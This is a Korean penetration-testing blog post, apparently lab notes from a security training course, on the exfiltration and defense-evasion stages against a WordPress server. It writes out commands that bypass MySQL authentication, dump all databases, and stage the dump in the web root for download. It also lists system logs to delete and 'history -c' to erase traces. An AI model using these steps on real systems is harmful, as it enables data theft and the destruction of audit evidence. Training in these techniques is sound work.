```yaml
---
layout: post
title: fngs.kr | 7. 정보유출 및 방어회피
subtitle: fngs.kr 7. 정보유출 및 방어회피 단계
categories: Pentest
tags: [Pentest, TTPs]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 이전 내용

리버스 쉘을 통한 접근 및 백도어 텔넷을 통한 추가적 움직임을 진행했다. ROOT 권한까지 진행했습니다.

## Exfiltration

정보 유출은 공격자가 네트워크에서 데이터를 훔치는 데 사용할 수 있는 기술로 구성됩니다. 일단 데이터를 수집하면 공격자는 데이터를 제거하는 동안 탐지를 피하기 위해 종종 패키지를 만듭니다. 

여기에는 압축 및 암호화가 포함될 수 있습니다. 대상 네트워크에서 데이터를 가져오는 기술에는 일반적으로 명령 및 제어 채널 또는 대체 채널을 통해 데이터를 전송하는 것이 포함되며 **전송에 크기 제한을 두는 것도 포함될 수 있습니다.**

이번에는 데이터베이스의 데이터를 탈취해보겠습니다.

### Exfiltration Over Web Service

공격자는 기본 명령 및 제어 채널이 아닌 기존의 합법적인 외부 웹 서비스를 사용하여 데이터를 유출할 수 있습니다. 

유출 메커니즘으로 작동하는 인기 있는 웹 서비스는 네트워크 내의 호스트가 손상되기 전에 이미 해당 호스트와 통신할 가능성으로 인해 상당한 양의 커버를 제공할 수 있습니다.

해당 웹 서비스는 Wordpress로 기본적인 80번 포트로 정보를 제공해준다. 따라서, 데이터베이스의 내용을 dump하여 **디렉토리 인덱싱**처럼 접근하여 탈취를 진행한다.

**mysql**를 접근하려면 mysql에 대한 비밀번호까지 필요하다. 

`mysqld_safe`는 일종의 mysqld를 감시하는 데몬이라고 볼 수 있는데, 사용자가 mysqld_safe로 MySQL을 시작하면 mysqld_safe이 내부 스크립트에서 mysqld를 실행하고 mysqld 프로세스를 모니터링하고, 어떤 문제로 mysqld가 강제 종료하면 mysqld를 다시 시작하게 합니다.

mysql을 실행할 때에 table grant권한을 생략하고 실행을 할 수 있습니다. 즉, 패스워드가 설정되어 있는 모든 사용자들이 패스워드 없이 mysql에 바로 접속을 할 수 있기 때문에 주로 mysql root계정의 비밀번호를 잊어 버렸을 경우에 **table grant권한을 생략하여 mysql을 실행시킨 다음 mysql root사용자의 비밀번호를 변경하는 용도로 많이 사용됩니다.**


```bash
service mysql stop # For Safe Access
mysqld_safe --skip-grant-tables & # 권한 생략 접근
mysqldump --all-databases > hack.sql # 모든 내용 hack.sql로 백업
pkill mysqld # mysql demon 프로세스 종료
service mysql start # mysql 재시작
```

유출할 정보를 어떻게 옮길 지 아래와 같은 절차를 생각해 볼 수 있다.

* 경로를 무엇으로 정할 것인지?
* 임의 포트를 열어서 탈취한다.
  * 탐지가 쉽다.
* 이미 사용중인 포트를 이용해서 탈취한다.
  * Wordpress 웹 서비스를 위한 80번 포트가 열려있다.

> 따라서, `/var/www/wordpress`를 디렉토리에 해당 파일을 옮겨 웹 접근으로 유출할 수 있을 것이다.

```
mv hack.sql /var/www/wordpress # 백업 파일 유출 단계
```

이후 빠져나와서 `wget http://192.168.0.140/hack.sql`를 진행하면 `hack.sql` 파일이 생긴 것을 확인 할 수 있다.

파일이 제대로 온 것인지 확인하기 위해 사용 하지 않는 mysql를 초기화 시키고 `mysql < hack.sql`로 내용을 옮기고 확인해보니 **wordpress** 항목이 생긴 것을 확인 할 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183240036-338474e6-a99b-4a81-ac01-46cad9c1ec1b.png" width = 320>
</p>

일반적으로 **hack.sql**와 같이 모든 데이터베이스의 백업 파일은 데이터가 크기 때문에 한 번에 옮기면 탐지에 쉽다.

**그렇다면 아주 작게 분할하여 일정한 시간으로 조금씩 탈취하면 탐지가 어렵다.**

## Defense Evasion

공격자는 항상 흔적을 지우고자 한다. 정보 수집, 침투, 데이터 유출 등 다양한 행위로 남은 로그를 지우는 실습을 한다.

이러한 행위를 TTPs에서는 **Defense Evasion(방어 회피)**전술이라 말한다.

방어 회피는 공격자가 공격 전반에 걸쳐 탐지를 피하기 위해 사용하는 기술로 구성됩니다. 방어 회피에 사용되는 기술에는 보안 소프트웨어 제거/비활성화, 데이터 및 스크립트 난독화/암호화 등이 있습니다.

이번에 하는 방법으로는 호스트 상에 남은 지표를 삭제 하는 것이다.

### Indicator Removal on Host

공격자는 호스트 시스템에서 생성된 아티팩트를 삭제하거나 수정하여 존재 증거를 제거하거나 방어를 방해할 수 있습니다. 다양한 아티팩트가 적에 의해 생성되거나 적의 행동으로 인해 생성될 수 있습니다.

일반적으로 이러한 아티팩트는 다운로드된 파일의 문자열, 사용자 작업에서 생성된 로그 및 방어자가 분석한 기타 데이터와 같이 모니터링되는 이벤트와 관련된 방어 지표로 사용됩니다.

이러한 로그를 제거하면 이벤트 수집, 보고 또는 침입 활동을 감지하는 데 사용되는 기타 프로세스를 방해할 수 있습니다. 이는 주목할만한 이벤트가 보고되지 않는 원인이 되어 보안 솔루션의 무결성을 손상시킬 수 있습니다.

* **/var/log/mysql**
  * SQL Injection을 통한 로그, 백업 로그 등을 삭제
* **/var/log/apache2**
  * 접속 했던 로그, 업로드 및 다운로드 등을 삭제
* **/var/log/apt/history.log**
  * `apt-get` 관련 기록을 삭제
* **/var/log/auth.log**
  * 사용자 로그인이나 사용된 인증방법같은 시스템 인증 정보 등을 삭제
* **history -c**
  * 웹 쉘을 통해 사용했던 모든 명령어 기록 삭제